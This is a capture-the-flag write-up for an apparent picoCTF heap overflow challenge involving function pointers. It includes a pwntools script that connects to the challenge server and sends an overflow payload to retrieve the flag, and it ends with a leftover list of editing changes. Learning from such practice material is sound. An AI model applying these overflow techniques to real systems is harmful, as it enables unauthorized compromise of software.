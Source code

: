 # Description

Can you handle function pointers?  
Download the binary [here](#).  
Download the source [here](#).  
Additional details will be available after launching your challenge instance.

---

# Solution

The first step is to use `wget` to download the source code and the executable file.  
You'll need to use the `pwntools` library because simply interacting manually won't reveal the flag. Using `print(p.recvall())` ensures you capture all the output.

Below is a simple Python script using `pwntools` to automate the process:

```python
from pwn import *  # Import from the pwntools library

# Connect to the remote server
p = remote("mimas.picoctf.net", 49262)

# Send the first input
p.sendline(b"2")

# Receive the prompt for buffer
p.recvuntil(b"buffer:")

# Send a payload to overflow the heap
p.sendline(b"XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX")

# Receive the next prompt
p.recvuntil(b"choice:")

# Send the choice to proceed
p.sendline(b"4")

# Receive and print the flag
print(p.recvall())  # Receive the flag and analyze the difference between heap_01 and heap_02
```
# Changes:
1. Improved grammar and readability.
2. Added placeholder links for the binary and source files.
3. Properly formatted the script in a code block.
4. Used clear headings and spacing for better structure.

Before copying the code, take a moment to understand each step.
Good luck, and I hope this brings you success and happiness! 🙂

